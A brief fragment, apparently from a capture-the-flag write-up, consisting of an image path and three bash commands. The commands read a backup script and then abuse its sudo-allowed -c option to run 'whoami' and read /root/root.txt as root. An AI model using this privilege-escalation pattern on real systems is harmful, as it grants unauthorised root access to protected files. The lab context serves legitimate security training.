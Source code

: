 ```bash
cat /etc/mp3backups/backup.sh
sudo /etc/mp3backups/backup.sh -c "whoami"
sudo /etc/mp3backups/backup.sh -c "cat /root/root.txt"
```

---